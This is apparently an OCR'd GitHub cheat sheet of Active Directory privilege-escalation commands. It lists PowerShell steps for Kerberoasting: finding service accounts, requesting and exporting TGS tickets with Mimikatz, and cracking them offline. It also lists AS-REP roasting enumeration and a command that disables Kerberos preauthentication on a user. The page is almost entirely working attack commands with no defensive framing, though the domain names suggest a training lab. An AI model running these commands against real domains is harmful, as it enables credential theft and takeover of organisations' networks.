 ## Privilege Escalation



#### Kerberoast



**1. Enumeration with Powerview:**

```
# Find user accounts used as Service accounts with PowerView
Get-NetUser SPN           
```

**2. Enumeration with AD Module:**

```
# Find user accounts used as Service accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

**3. Request a TGS:**

```
# Request a TGS - Phase 1
Add-Type -AssemblyNAme System.IdentityModel
# Request a TGS - Phase 2
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/dcorp-mgmt.corp.corporate.local" 
# Check if the TGS has been granted
klist
```

**4. Export and crack TGS:**

```
# Export all tickets
Invoke-Mimikatz -Command '"kerberos::list /export"'
# Crack the Service account password
python.exe .\tgsrepcrack.py .\10k-worst-pass.txt .\3-40a10000-svcadmin@MSSQLSvc~dcorp-mgmt.corp.corporate.local-CORP.CORPORATE.LOCAL.kirbi
```

#### Targeted Kerberoasting AS REPs



**1. Enumeration with Powerview dev Version:**

```
# Enumerating accounts with Kerberos Preauth disabled
Get-DomainUser -PreauthNotRequired -Verbose
# Enumerating the permissions for RDPUsers on ACLs using
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}
```

**2. Enumeration with AD Module:**

```
# Enumerating accounts with Kerberos Preauth disabled
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
# Set unsolicited pre-authentication for test01 UAC settings
Set-DomainObject -Identity test01 -XOR @{useraccountcontrol=4194304} -Verbose
```
